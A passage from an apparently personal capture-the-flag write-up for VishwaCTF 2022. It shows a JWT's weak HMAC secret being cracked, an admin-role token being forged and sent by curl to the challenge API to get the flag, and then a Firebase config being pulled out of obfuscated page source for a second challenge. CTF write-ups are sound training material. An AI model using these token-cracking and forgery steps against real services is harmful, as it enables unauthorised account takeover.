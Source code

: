 ```bash
└─$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2NDc4NDk3MDJ9.jntN_ge2ijGBdbW4VSmOH2et3D_wuZpcbWBLwiTJvfw
Secret is "owasp"
```

With the secret revealed, the JWT token was forged using [https://jwt.io/](https://jwt.io/).

![vishwactf-2022-secret.png]({{ site.url }}{{ site.baseurl }}/assets/posts/vishwactf-2022-secret.png)

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjQ3ODQ5NzAyfQ.zOblD3yjxrVZtloGiVKGKNE3reFdIPB2sWdvBIhVqnw
```

The forged token was then used and the flag was returned.

```bash
└─$ curl -X POST "https://k33p-y0ur-53cr3t5.vishwactf.com/api/login/user" -H "token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjQ3ODQ5NzAyfQ.zOblD3yjxrVZtloGiVKGKNE3reFdIPB2sWdvBIhVqnw"
w3@k_$ecr3t$
```

Flag: `vishwactf{w3@k_$ecr3t$}`

<br>

### Flag .Collection
`488 points` `34 solves`

> We are collecting cool flag names for our next CTF, please suggest us some cool names and we’ll store them in our database for our next CTF. [https://fl4g-c0ll3ct10n.vishwactf.com/](https://fl4g-c0ll3ct10n.vishwactf.com/)

Checking the page source revealed that firebase is used with the configuration details shown, with the database URL in the obfuscated code section as a constant.

```jsx
...
        "5445585bALQCb",
        "vishwa-ctf.appspot.com",
        "https://vishwa-ctf-default-rtdb.firebaseio.com",
    ];
    _0x3451 = function () {
        return _0x57f996;
    };
    return _0x3451();
}

const firebaseConfig = {
    apiKey: "AIzaSyDHjPh1vkUeGy37mS3cHn-D1UU_oipuTYY",
    authDomain: "vishwactf-challenge12.firebaseapp.com",
    projectId: "vishwactf-challenge12",
    storageBucket: "vishwactf-challenge12.appspot.com",
    messagingSenderId: "435590274737",
    appId: "1:435590274737:web:2bfab4663703ba42c40c90",
};
```
